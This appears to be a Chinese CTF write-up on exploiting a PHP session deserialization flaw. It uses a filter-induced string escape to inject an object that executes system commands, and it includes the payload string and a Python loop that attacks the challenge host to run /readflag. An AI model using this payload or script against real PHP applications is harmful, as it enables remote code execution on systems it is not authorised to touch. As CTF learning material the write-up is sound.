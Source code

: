 > **<mark>涉及"为什么要逃逸"的问题，首先在本地开一个apache服务，先看一下如果直接传`O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}`在session文件中发生什么：
![alt text](jpgs/image3.png)
可以看到password的值是s开头的，而s代表string类型，而不是一个class类型，因此反序列化出来的就不是一个类对象，进而也就不能执行命令。因此需要进行逃逸，逃逸出一个O开头的序列化序列出来。<mark>**
![alt text](jpgs/image4.png)

接下来就是如何逃逸，先结合下面这幅图分析一下我们要逃逸出什么来，其中高亮部分是我们不需要的部分，要的是O的内容:
![alt text](jpgs/image5.png)

因此需要借助对user的敏感字符的过滤以及`session_key`进行逃逸，由于`session_key`的长度不固定，因此我们需要定长爆破，构造如下payload：
> user=popenpopenpopenpopenpopenpopenpopenpopenpopenpopensystem&password=";pearain|O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}
## 解答
那么结合上述分析以及session的特性，最终payload如下：
```python
import requests

data = {
    'username': 'popenpopenpopenpopenpopenpopenpopenpopenpopenpopensystem',
    'password': ';session_key|O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}password|s:1:"a'
}

url = "http://eci-2ze1c97lhjov4heewssx.cloudeci1.ichunqiu.com/"
while True:
    r = requests.session()
    params = {
    'pear': "/readflag"
    }
    # 这里为什么要请求两次？第一次请求session_id文件并没有内容，需要请求两次，然后再进行反序列化
    r1 = r.post(url+'/index.php', headers=headers, params=params, data=data, verify=False, allow_redirects=False)
    r1 = r.post(url+'/index.php', headers=headers, params=params, data=data, verify=False, allow_redirects=False)
    r2 = r.post(url + '/dashboard.php?pear=/readflag', headers=headers, verify=False, allow_redirects=False)
    if "flag" in r2.text:
        print(r2.text)
        break
    r.close()
```
